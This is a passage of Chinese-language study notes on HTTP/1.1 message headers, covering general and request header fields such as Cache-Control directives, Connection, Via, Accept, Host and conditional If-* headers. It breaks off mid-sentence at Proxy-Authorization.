# Http


## 六、HTTP 首部

HTTP 协议的请求和响应报文中必定包含 HTTP 首部，只是我们平时
在使用 Web 的过程中感受不到它。本章我们一起来学习 HTTP 首部
的结构，以及首部中各字段的用法。

### 1. HTTP 报文首部


HTTP 协议的请求和响应报文中必定包含 HTTP 首部。首部内容为客
户端和服务器分别处理请求和响应提供所需要的信息。对于客户端用
户来说，这些信息中的大部分内容都无须亲自查看。

报文首部由几个字段构成。

HTTP 请求报文

在请求中，HTTP 报文由方法、URI、HTTP 版本、HTTP 首部字段等
部分构成。



HTTP 响应报文

在响应中，HTTP 报文由 HTTP 版本、状态码（数字和原因短语）、
HTTP 首部字段 3 部分构成。


在报文众多的字段当中，HTTP 首部字段包含的信息最为丰富。首部
字段同时存在于请求和响应报文内，并涵盖 HTTP 报文相关的内容信
息。

因 HTTP 版本或扩展规范的变化，首部字段可支持的字段内容略有不
同。本书主要涉及 HTTP/1.1 及常用的首部字段。

### 2. HTTP 首部字段

**HTTP 首部字段传递重要信息**

HTTP 首部字段是构成 HTTP 报文的要素之一。在客户端与服务器之
间以 HTTP 协议进行通信的过程中，无论是请求还是响应都会使用首
部字段，它能起到传递额外重要信息的作用

使用首部字段是为了给浏览器和服务器提供报文主体大小、所使用的
语言、认证信息等内容。

**HTTP 首部字段结构**

HTTP 首部字段是由首部字段名和字段值构成的，中间用冒号“:” 分
隔。

例如，在 HTTP 首部中以 Content-Type 这个字段来表示报文主体的 对
象类型。



就以上述示例来看，首部字段名为 Content-Type，字符串 text/html 是
字段值。

另外，字段值对应单个 HTTP 首部字段可以有多个值，如下所示。


>若 HTTP 首部字段重复了会如何
当 HTTP 报文首部中出现了两个或两个以上具有相同首部字段名时
会怎么样？这种情况在规范内尚未明确，根据浏览器内部处理逻辑
的不同，结果可能并不一致。有些浏览器会优先处理第一次出现的
首部字段，而有些则会优先处理最后出现的首部字段。

**4 种 HTTP 首部字段类型**

HTTP 首部字段根据实际用途被分为以下 4 种类型。

通用首部字段（General Header Fields）

请求报文和响应报文两方都会使用的首部。

请求首部字段（Request Header Fields）

从客户端向服务器端发送请求报文时使用的首部。补充了请求的附加
内容、客户端信息、响应内容相关优先级等信息。

响应首部字段（Response Header Fields）

从服务器端向客户端返回响应报文时使用的首部。补充了响应的附加
内容，也会要求客户端附加额外的内容信息。

实体首部字段（Entity Header Fields）

针对请求报文和响应报文的实体部分使用的首部。补充了资源内容更
新时间等与实体有关的信息

**HTTP/1.1 首部字段一览**

HTTP/1.1 规范定义了如下 47 种首部字段。

通用首部字段:


请求首部字段:



响应首部字段:



实体首部字段:


**非 HTTP/1.1 首部字段**

在 HTTP 协议通信交互中使用到的首部字段，不限于 RFC2616 中定
义的 47 种首部字段。还有 Cookie、Set-Cookie 和 Content-Disposition
等在其他 RFC 中定义的首部字段，它们的使用频率也很高。

这些非正式的首部字段统一归纳在 RFC4229 HTTP Header Field
Registrations 中。

**End-to-end 首部和 Hop-by-hop 首部**

HTTP 首部字段将定义成缓存代理和非缓存代理的行为，分成 2 种类
型。

端到端首部（End-to-end Header）

分在此类别中的首部会转发给请求 / 响应对应的最终接收目标，且必
须保存在由缓存生成的响应中，另外规定它必须被转发。

逐跳首部（Hop-by-hop Header）

分在此类别中的首部只对单次转发有效，会因通过缓存或代理而不再
转发。HTTP/1.1 和之后版本中，如果要使用 hop-by-hop 首部，需提
供 Connection 首部字段。

下面列举了 HTTP/1.1 中的逐跳首部字段。除这 8 个首部字段之外，
其他所有字段都属于端到端首部。

- Connection
- Keep-Alive
- Proxy-Authenticate
- Proxy-Authorization
- Trailer
- TE
- Transfer-Encoding
- Upgrade

### 3. HTTP/1.1 通用首部字段

通用首部字段是指，请求报文和响应报文双方都会使用的首部。

**Cache-Control**

通过指定首部字段 Cache-Control 的指令，就能操作缓存的工作机
制。

首部字段 Cache-Control 能够控制缓存的行为

指令的参数是可选的，多个指令之间通过“,”分隔。首部字段 Cache-
Control 的指令可用于请求及响应时

Cache-Control: private, max-age=0, no-cache

- Cache-Control 指令一览

可用的指令按请求和响应分类如下所示。

缓存请求指令:


缓存响应指令:


表示是否能缓存的指令

public 指令

Cache-Control: public

当指定使用 public 指令时，则明确表明其他用户也可利用缓存。

private 指令

Cache-Control: private

当指定 private 指令后，响应只以特定的用户作为对象，这与 public
指令的行为相反。

缓存服务器会对该特定用户提供资源缓存的服务，对于其他用户发送
过来的请求，代理服务器则不会返回缓存。

no-cache 指令

Cache-Control: no-cache

使用 no-cache 指令的目的是为了防止从缓存中返回过期的资源。

客户端发送的请求中如果包含 no-cache 指令，则表示客户端将不会接
收缓存过的响应。于是，“中间”的缓存服务器必须把客户端请求转发
给源服务器。

如果服务器返回的响应中包含 no-cache 指令，那么缓存服务器不能对
资源进行缓存。源服务器以后也将不再对缓存服务器请求中提出的资
源有效性进行确认，且禁止其对响应资源进行缓存操作。

Cache-Control: no-cache=Location

由服务器返回的响应中，若报文首部字段 Cache-Control 中对 no-cache
字段名具体指定参数值，那么客户端在接收到这个被指定参数值的首
部字段对应的响应报文后，就不能使用缓存。换言之，无参数值的首
部字段可以使用缓存。只能在响应指令中指定该参数

控制可执行缓存的对象的指令

no-store 指令

Cache-Control: no-store

当使用 no-store 指令时，暗示请求（和对应的响应）或响应中包含
机密信息。

>从字面意思上很容易把 no-cache 误解成为不缓存，但事实上 no-cache 代表不缓
 存过期的资源，缓存会向源服务器进行有效期确认后处理资源，也许称为 do-not-serve-
 from-cache-without-revalidation 更合适。no-store 才是真正地不进行缓存，请
 读者注意区别理解。

因此，该指令规定缓存不能在本地存储请求或响应的任一部分。

s-maxage 指令

Cache-Control: s-maxage=604800（单位 ：秒）

s-maxage 指令的功能和 max-age 指令的相同，它们的不同点是 smaxage
指令只适用于供多位用户使用的公共缓存服务器。也就是
说，对于向同一用户重复返回响应的服务器来说，这个指令没有任何
作用。

另外，当使用 s-maxage 指令后，则直接忽略对 Expires 首部字段及
max-age 指令的处理。

max-age 指令



Cache-Control: max-age=604800（单位：秒）

当客户端发送的请求中包含 max-age 指令时，如果判定缓存资源的缓
存时间数值比指定时间的数值更小，那么客户端就接收缓存的资源。
另外，当指定 max-age 值为 0，那么缓存服务器通常需要将请求转发
给源服务器。

当服务器返回的响应中包含 max-age 指令时，缓存服务器将不对资源
的有效性再作确认，而 max-age 数值代表资源保存为缓存的最长时
间。

应用 HTTP/1.1 版本的缓存服务器遇到同时存在 Expires 首部字段的情
况时，会优先处理 max-age 指令，而忽略掉 Expires 首部字段。而
HTTP/1.0 版本的缓存服务器的情况却相反，max-age 指令会被忽略
掉。

min-fresh 指令

Cache-Control: min-fresh=60（单位：秒）

min-fresh 指令要求缓存服务器返回至少还未过指定时间的缓存资源。
比如，当指定 min-fresh 为 60 秒后，过了 60 秒的资源都无法作为响
应返回了。

max-stale 指令

Cache-Control: max-stale=3600（单位：秒）

使用 max-stale 可指示缓存资源，即使过期也照常接收。

如果指令未指定参数值，那么无论经过多久，客户端都会接收响应；
如果指令中指定了具体数值，那么即使过期，只要仍处于 max-stale
指定的时间内，仍旧会被客户端接收。

only-if-cached 指令

Cache-Control: only-if-cached

使用 only-if-cached 指令表示客户端仅在缓存服务器本地缓存目标资
源的情况下才会要求其返回。换言之，该指令要求缓存服务器不重新
加载响应，也不会再次确认资源有效性。若发生请求缓存服务器的本
地缓存无响应，则返回状态码 504 Gateway Timeout。

must-revalidate 指令

Cache-Control: must-revalidate

使用 must-revalidate 指令，代理会向源服务器再次验证即将返回的响
应缓存目前是否仍然有效。

若代理无法连通源服务器再次获取有效资源的话，缓存必须给客户端
一条 504（Gateway Timeout）状态码。

另外，使用 must-revalidate 指令会忽略请求的 max-stale 指令（即使已
经在首部使用了 max-stale，也不会再有效果）。

proxy-revalidate 指令

Cache-Control: proxy-revalidate

proxy-revalidate 指令要求所有的缓存服务器在接收到客户端带有该指
令的请求返回响应之前，必须再次验证缓存的有效性。

no-transform 指令

Cache-Control: no-transform

使用 no-transform 指令规定无论是在请求还是响应中，缓存都不能改
变实体主体的媒体类型

这样做可防止缓存或代理压缩图片等类似操作。

Cache-Control 扩展

cache-extension token

Cache-Control: private, community="UCI"

通过 cache-extension 标记（token），可以扩展 Cache-Control 首部字
段内的指令。

如上例，Cache-Control首部字段本身没有community这个指令。借助
extension tokens 实现了该指令的添加。如果缓存服务器不能理解
community 这个新指令，就会直接忽略。因此，extension tokens 仅对
能理解它的缓存服务器来说是有意义的。

**Connection**

Connection 首部字段具备如下两个作用。

- 控制不再转发给代理的首部字段
- 管理持久连接
- 控制不再转发给代理的首部字段



Connection: 不再转发的首部字段名

在客户端发送请求和服务器返回响应内，使用 Connection 首部字
段，可控制不再转发给代理的首部字段（即 Hop-by-hop 首
部）。
- 管理持久连接

Connection: close

HTTP/1.1 版本的默认连接都是持久连接。为此，客户端会在持
久连接上连续发送请求。当服务器端想明确断开连接时，则指定
Connection 首部字段的值为 Close。


HTTP/1.1 之前的 HTTP 版本的默认连接都是非持久连接。为
此，如果想在旧版本的 HTTP 协议上维持持续连接，则需要指定
Connection 首部字段的值为 Keep-Alive。

如上图①所示，客户端发送请求给服务器时，服务器端会像上图
②那样加上首部字段 Keep-Alive 及首部字段 Connection 后返回
响应。

**Date**

首部字段 Date 表明创建 HTTP 报文的日期和时间。

HTTP/1.1 协议使用在 RFC1123 中规定的日期时间的格式，如下 示
例。

Date: Tue, 03 Jul 2012 04:40:59 GMT

之前的 HTTP 协议版本中使用在 RFC850 中定义的格式，如下所示。

Date: Tue, 03-Jul-12 04:40:59 GMT

除此之外，还有一种格式。它与 C 标准库内的 asctime() 函数的输出
格式一致。

Date: Tue Jul 03 04:40:59 2012

**Pragma**

Pragma 是 HTTP/1.1 之前版本的历史遗留字段，仅作为与 HTTP/1.0
的向后兼容而定义。

规范定义的形式唯一，如下所示。

Pragma: no-cache

该首部字段属于通用首部字段，但只用在客户端发送的请求中。客户
端会要求所有的中间服务器不返回缓存的资源。

所有的中间服务器如果都能以 HTTP/1.1 为基准，那直接采用 Cache-
Control: no-cache 指定缓存的处理方式是最为理想的。但要整体掌握
全部中间服务器使用的 HTTP 协议版本却是不现实的。因此，发送的
请求会同时含有下面两个首部字段。

Cache-Control: no-cache
Pragma: no-cache

**Trailer**

首部字段 Trailer 会事先说明在报文主体后记录了哪些首部字段。该
首部字段可应用在 HTTP/1.1 版本分块传输编码时。



以上用例中，指定首部字段 Trailer 的值为 Expires，在报文主体之后
（分块长度 0 之后）出现了首部字段 Expires

**transfer-Encoding**

首部字段 Transfer-Encoding 规定了传输报文主体时采用的编码方式。

HTTP/1.1 的传输编码方式仅对分块传输编码有效。


以上用例中，正如在首部字段 Transfer-Encoding 中指定的那样，有效
使用分块传输编码，且分别被分成 3312 字节和 914 字节大小的分块
数据。

**Upgrade**

首部字段 Upgrade 用于检测 HTTP 协议及其他协议是否可使用更高的
版本进行通信，其参数值可以用来指定一个完全不同的通信协议。



上图用例中，首部字段 Upgrade 指定的值为 TLS/1.0。请注意此处两
个字段首部字段的对应关系，Connection 的值被指定为 Upgrade。
Upgrade 首部字段产生作用的 Upgrade 对象仅限于客户端和邻接服务
器之间。因此，使用首部字段 Upgrade 时，还需要额外指定
Connection:Upgrade。

对于附有首部字段 Upgrade 的请求，服务器可用 101 Switching
Protocols 状态码作为响应返回。

**Via**

使用首部字段 Via 是为了追踪客户端与服务器之间的请求和响应报文
的传输路径。

报文经过代理或网关时，会先在首部字段 Via 中附加该服务器的信
息，然后再进行转发。这个做法和 traceroute 及电子邮件的 Received
首部的工作机制很类似。

首部字段 Via 不仅用于追踪报文的转发，还可避免请求回环的发生。
所以必须在经过代理时附加该首部字段内容。


上图用例中，在经过代理服务器 A 时，Via 首部附加了“1.0
gw.hackr.jp (Squid/3.1)”这样的字符串值。行头的 1.0 是指接收请求的
服务器上应用的 HTTP 协议版本。接下来经过代理服务器 B 时亦是如
此，在 Via 首部附加服务器信息，也可增加 1 个新的 Via 首部写入服
务器信息。

Via 首部是为了追踪传输路径，所以经常会和 TRACE 方法一起使
用。比如，代理服务器接收到由 TRACE 方法发送过来的请求（其中
Max-Forwards: 0）时，代理服务器就不能再转发该请求了。这种情况
下，代理服务器会将自身的信息附加到 Via 首部后，返回该请求的响
应。

**Warning**

HTTP/1.1 的 Warning 首部是从 HTTP/1.0 的响应首部（Retry-After）演
变过来的。该首部通常会告知用户一些与缓存相关的问题的警告。

Warning: 113 gw.hackr.jp:8080 "Heuristic expiration" Tue, 03

Warning 首部的格式如下。最后的日期时间部分可省略。

Warning: [警告码][警告的主机:端口号]“[警告内容]”([日期时间])

HTTP/1.1 中定义了 7 种警告。警告码对应的警告内容仅推荐参考。
另外，警告码具备扩展性，今后有可能追加新的警告码。

HTTP/1.1 警告码:


### 4. 请求首部字段

请求首部字段是从客户端往服务器端发送请求报文中所使用的字段，
用于补充请求的附加信息、客户端信息、对响应内容相关的优先级等
内容。

**Accept**



Accept: text/html,application/xhtml+xml,application/xml;q=0.9

Accept 首部字段可通知服务器，用户代理能够处理的媒体类型及媒体
类型的相对优先级。可使用 type/subtype 这种形式，一次指定多种媒
体类型。

下面我们试举几个媒体类型的例子。

- 文本文件  
text/html, text/plain, text/css ...
application/xhtml+xml, application/xml ...
- 图片文件  
image/jpeg, image/gif, image/png ...
- 视频文件  
video/mpeg, video/quicktime ...
- 应用程序使用的二进制文件
application/octet-stream, application/zip ...

比如，如果浏览器不支持 PNG 图片的显示，那 Accept 就不指定
image/png，而指定可处理的 image/gif 和 image/jpeg 等图片类型。

若想要给显示的媒体类型增加优先级，则使用 q= 来额外表示权重值
1，用分号（;）进行分隔。权重值 q 的范围是 0~1（可精确到小数点
后 3 位），且 1 为最大值。不指定权重 q 值时，默认权重为 q=1.0。

当服务器提供多种内容时，将会首先返回权重值最高的媒体类型。

**Accept-Charset**

Accept-Charset: iso-8859-5, unicode-1-1;q=0.8

Accept-Charset 首部字段可用来通知服务器用户代理支持的字符集及
字符集的相对优先顺序。另外，可一次性指定多种字符集。与首部字
段 Accept 相同的是可用权重 q 值来表示相对优先级。

该首部字段应用于内容协商机制的服务器驱动协商。

**Accept-Encoding**

Accept-Encoding: gzip, deflate

Accept-Encoding 首部字段用来告知服务器用户代理支持的内容编码及
内容编码的优先级顺序。可一次性指定多种内容编码。

下面试举出几个内容编码的例子。

- gzip  
由文件压缩程序 gzip（GNU zip）生成的编码格式
（RFC1952），采用 Lempel-Ziv 算法（LZ77）及 32 位循环冗余
校验（Cyclic Redundancy Check，通称 CRC）。
- compress  
由 UNIX 文件压缩程序 compress 生成的编码格式，采用 Lempel-
Ziv-Welch 算法（LZW）。
- deflate  
组合使用 zlib 格式（RFC1950）及由 deflate 压缩算法
（RFC1951）生成的编码格式。
- identity  
不执行压缩或不会变化的默认编码格式

采用权重 q 值来表示相对优先级，这点与首部字段 Accept 相同。另
外，也可使用星号（*）作为通配符，指定任意的编码格式。

**Accept-Language**

Accept-Language: zh-cn,zh;q=0.7,en-us,en;q=0.3

首部字段 Accept-Language 用来告知服务器用户代理能够处理的自然
语言集（指中文或英文等），以及自然语言集的相对优先级。可一次
指定多种自然语言集。

和 Accept 首部字段一样，按权重值 q 来表示相对优先级。在上述图
例中，客户端在服务器有中文版资源的情况下，会请求其返回中文版
对应的响应，没有中文版时，则请求返回英文版响应。

**Authorization**


首部字段 Authorization 是用来告知服务器，用户代理的认证信息（证
书值）。通常，想要通过服务器认证的用户代理会在接收到返回的
401 状态码响应后，把首部字段 Authorization 加入请求中。共用缓存
在接收到含有 Authorization 首部字段的请求时的操作处理会略有差
异。

有关 HTTP 访问认证及 Authorization 首部字段，稍后的章节还会详细
说明。另外，读者也可参阅 RFC2616。

**Expect**

Expect: 100-continue

客户端使用首部字段 Expect 来告知服务器，期望出现的某种特定行
为。因服务器无法理解客户端的期望作出回应而发生错误时，会返回
状态码 417 Expectation Failed。

客户端可以利用该首部字段，写明所期望的扩展。虽然 HTTP/1.1 规
范只定义了 100-continue（状态码 100 Continue 之意）。

等待状态码 100 响应的客户端在发生请求时，需要指定 Expect:100-
continue。

**From**

首部字段 From 用来告知服务器使用用户代理的用户的电子邮件地
址。通常，其使用目的就是为了显示搜索引擎等用户代理的负责人的
电子邮件联系方式。使用代理时，应尽可能包含 From 首部字段（但
可能会因代理不同，将电子邮件地址记录在 User-Agent 首部字段
内）。

**Host**


图：虚拟主机运行在同一个 IP 上，因此使用首部字段 Host 加以
区分

Host: www.hackr.jp

首部字段 Host 会告知服务器，请求的资源所处的互联网主机名和端
口号。Host 首部字段在 HTTP/1.1 规范内是唯一一个必须被包含在请
求内的首部字段。

首部字段 Host 和以单台服务器分配多个域名的虚拟主机的工作机制
有很密切的关联，这是首部字段 Host 必须存在的意义。

请求被发送至服务器时，请求中的主机名会用 IP 地址直接替换解
决。但如果这时，相同的 IP 地址下部署运行着多个域名，那么服务
器就会无法理解究竟是哪个域名对应的请求。因此，就需要使用首部
字段 Host 来明确指出请求的主机名。若服务器未设定主机名，那直
接发送一个空值即可。如下所示。

Host:

**If-Match**


图：附带条件请求

形如 If-xxx 这种样式的请求首部字段，都可称为条件请求。服务器接
收到附带条件的请求后，只有判断指定条件为真时，才会执行请求。


图：只有当 If-Match 的字段值跟 ETag 值匹配一致时，服务器才会
接受请求

If-Match: "123456"

首部字段 If-Match，属附带条件之一，它会告知服务器匹配资源所用
的实体标记（ETag）值。这时的服务器无法使用弱 ETag 值。（请参
照本章有关首部字段 ETag 的说明）

服务器会比对 If-Match 的字段值和资源的 ETag 值，仅当两者一致
时，才会执行请求。反之，则返回状态码 412 Precondition Failed 的响
应。

还可以使用星号（*）指定 If-Match 的字段值。针对这种情况，服务
器将会忽略 ETag 的值，只要资源存在就处理请求。

**If-Modified-Since**


图：如果在 If-Modified-Since 字段指定的日期时间后，资源发生了
更新，服务器会接受请求.

If-Modified-Since: Thu, 15 Apr 2004 00:00:00 GMT

首部字段 If-Modified-Since，属附带条件之一，它会告知服务器若 If-
Modified-Since 字段值早于资源的更新时间，则希望能处理该请求。
而在指定 If-Modified-Since 字段值的日期时间之后，如果请求的资源
都没有过更新，则返回状态码 304 Not Modified 的响应。

If-Modified-Since 用于确认代理或客户端拥有的本地资源的有效性。
获取资源的更新日期时间，可通过确认首部字段 Last-Modified 来确
定。

**If-None-Match**



图：只有在 If-None-Match 的字段值与 ETag 值不一致时，可处理
该请求。与 If-Match 首部字段的作用相反

首部字段 If-None-Match 属于附带条件之一。它和首部字段 If-Match
作用相反。用于指定 If-None-Match 字段值的实体标记（ETag）值与
请求资源的 ETag 不一致时，它就告知服务器处理该请求。

在 GET 或 HEAD 方法中使用首部字段 If-None-Match 可获取最新的资
源。因此，这与使用首部字段 If-Modified-Since 时有些类似。

**If-Range**



首部字段 If-Range 属于附带条件之一。它告知服务器若指定的 If-
Range 字段值（ETag 值或者时间）和请求资源的 ETag 值或时间相一
致时，则作为范围请求处理。反之，则返回全体资源。


下面我们思考一下不使用首部字段 If-Range 发送请求的情况。服务器
端的资源如果更新，那客户端持有资源中的一部分也会随之无效，当
然，范围请求作为前提是无效的。这时，服务器会暂且以状态码 412
Precondition Failed 作为响应返回，其目的是催促客户端再次发送请
求。这样一来，与使用首部字段 If-Range 比起来，就需要花费两倍的
功夫。

**If-Unmodified-Since**

If-Unmodified-Since: Thu, 03 Jul 2012 00:00:00 GMT

首部字段 If-Unmodified-Since 和首部字段 If-Modified-Since 的作用相
反。它的作用的是告知服务器，指定的请求资源只有在字段值内指定
的日期时间之后，未发生更新的情况下，才能处理请求。如果在指定
日期时间后发生了更新，则以状态码 412 Precondition Failed 作为响应
返回。

**Max-Forwards**


图：每次转发数值减 1。当数值变 0 时返回响应

Max-Forwards: 10

通过 TRACE 方法或 OPTIONS 方法，发送包含首部字段 Max-
Forwards 的请求时，该字段以十进制整数形式指定可经过的服务器最
大数目。服务器在往下一个服务器转发请求之前，Max-Forwards 的
值减 1 后重新赋值。当服务器接收到 Max-Forwards 值为 0 的请求
时，则不再进行转发，而是直接返回响应。

使用 HTTP 协议通信时，请求可能会经过代理等多台服务器。途中，
如果代理服务器由于某些原因导致请求转发失败，客户端也就等不到
服务器返回的响应了。对此，我们无从可知。

可以灵活使用首部字段 Max-Forwards，针对以上问题产生的原因展
开调查。由于当 Max-Forwards 字段值为 0 时，服务器就会立即返回
响应，由此我们至少可以对以那台服务器为终点的传输路径的通信状
况有所把握。


图：代理 B 到源服务器的请求失败了，但客户端不知道

图：由于未知原因，导致请求陷入代理之间的循环，但客户端不
知道

**Proxy-Authorization**

Proxy-Authorization: Basic dGlwOjkpNLAGfFY5

接收到从代理服务器发来的认证质询时，客户端会发送包含首部字段
